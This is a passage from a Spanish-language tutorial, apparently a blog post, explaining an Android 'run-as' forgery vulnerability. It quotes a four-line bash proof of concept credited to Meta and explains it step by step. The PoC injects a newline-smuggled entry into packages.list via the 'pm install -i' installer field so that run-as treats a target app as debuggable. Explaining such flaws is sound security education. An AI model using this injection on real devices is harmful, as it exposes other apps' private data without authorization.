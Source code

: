 **[En esta sección se explicará el exploit, pero en la siguiente (Probar el exploit y recolectar datos) tendremos más detalles prácticos de la explotación.]**

Esta vulnerabilidad fue escogida para este primer experimento, entre otras razones, por lo fácil que es explotarla. Veamos.

El artículo de Meta sobre esta vulnerabilidad provee una PoC casi lista para usar en solo 4 líneas de código:

{% highlight bash linenos %}
# Pretty ugly way to get the package's UID, but I couldn't find a simpler one.
UID=$(pm list packages -U | sed -n "s/^package:$1 uid://p")

# This is the line we inject...
PAYLOAD="@null
victim $UID 1 /data/user/0 default:targetSdkVersion=28 none 0 0 1 @null"

# ...and this is how we inject it.
pm install -i "$PAYLOAD" any-app.apk
{% endhighlight %}
(Tomado de https://rtx.meta.security/exploitation/2024/03/04/Android-run-as-forgery.html el 9 de Enero de 2025)

Este código está hecho como un script de bash, sin embargo, no funciona así no más, pero revisemos cada parte para entender qué hace:

1. Obtener el UID (User ID) de la aplicación que queremos suplantar:
   
   ```bash
   UID=$(pm list packages -U | sed -n "s/^package:$1 uid://p")
   ```
&nbsp;
Acá la variable `$1` (el primer argumento del script) se reemplaza por el nombre completo de la aplicación, por ejemplo: com.example.vulnerable0 o com.google.android.gms.  
   Si se está en la shell de ADB, se puede ejecutar de la siguiente manera:  

   ```bash
   pm list packages -U | sed -n "s/^package:com.example.vulnerable0 uid://p"
   ```  
&nbsp;
   Para este ejemplo, supondremos que la salida de este comando fue: `10147`.

2. Preparar la línea que vamos a inyectar en **packages.list**, para eso usaremos la variable `PAYLOAD`:
   
   ```bash
   # This is the line we inject...
   PAYLOAD="@null
   victim $UID 1 /data/user/0 default:targetSdkVersion=28 none 0 0 1 @null"
   ```
&nbsp;
El primer `@null` será el _installer_ que se le pasará a la opción `-i` de `pm` y luego viene una _nueva línea_ con la entrada que se inyectará en **packages.list**. Para este caso, _victim_ debe reemplazarse por el nombre de la aplicación que queremos suplantar. Luego, `$UID` lo reemplazamos con el resultado del paso 1. Después, viene un `1` que es precisamente donde engañamos a `run-as` para hacerle creer que la aplicación es _debuggable_. Luego tenemos `/data/user/0` como el directorio `data` de la aplicación; usamos este porque funciona para cualquier aplicación en el contexto de esta vulnerabilidad. Después, `default:targetSdkVersion=28` se usa para derivar el dominio de SELinux y, en este caso, se pone de manera genérica que funciona para cualquier aplicación que use API >= 28. El resto de argumentos, según el artículo de Meta, no son relevantes para `run-as` y yo tampoco investigué qué eran.  
